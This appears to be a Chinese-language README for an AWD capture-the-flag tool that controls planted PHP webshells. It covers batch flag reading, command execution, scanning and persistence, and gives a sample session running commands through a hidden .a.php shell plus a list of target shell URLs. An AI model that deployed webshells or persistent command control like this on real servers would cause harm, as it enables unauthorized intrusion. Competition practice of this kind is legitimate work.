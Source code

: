 # P4rr0t_shell

---  

### 目录结构  
```shell
.
├── a.php
├── awd.sh
├── flag
├── flag.txt
├── log
├── README.md
├── seg.log
└── target.txt
```

### 主要功能  

主要支持php木马,支持批量拿flag,群控,命令控制,批量扫描,不死.

使用方式如下:  
```shell
    ____   __ __               ____   __
   / __ \ / // /  _____ _____ / __ \ / /_
  / /_/ // // /_ / ___// ___// / / // __/
 / ____//__  __// /   / /   / /_/ // /_
/_/       /_/  /_/   /_/    \____/ \__/
[+]1. CommandMode
[+]2. ReadAllFlag
[+]3. SegmentScan
[+]4. Exit
>1
[+]Input Target url>
127.0.0.1/.a.php
www-data@/var/www/html>ls -al
ls -al
ls -alstring(521) "total 48
drwxr-xr-x 5 root root  4096 Aug 16 14:43 .
drwxr-xr-x 9 root root  4096 Aug 14 14:30 ..
-rwxrwxrwx 1 root root   330 Aug 16 14:45 .a.php
-rw-r--r-- 1 root root   107 Aug 15 00:00 .index.php
-rw-r--r-- 1 root root   152 Aug 15 21:54 a.php
drwxr-xr-x 3 root root  4096 Aug 16 16:45 awd
drwxr-xr-x 2 root root  4096 Aug 14 14:30 blockchain
-rw-r--r-- 1 root root 10480 Feb 22 14:19 index.apache.html
-rw-r--r-- 1 root root   612 Oct 17  2018 index.nginx-debian.html
drwxr-xr-x 2 root root  4096 Aug 14 14:30 shell
"
www-data@/var/www/html>
```

### 配置方式
在target.txt中填写靶机的url地址,flag将输入到flag.txt中.  

```plain
http://127.0.0.1/.a.php
http://192.168.100.22/.fuck.php
```
连接脚本的密码在awd.sh中进行修改.
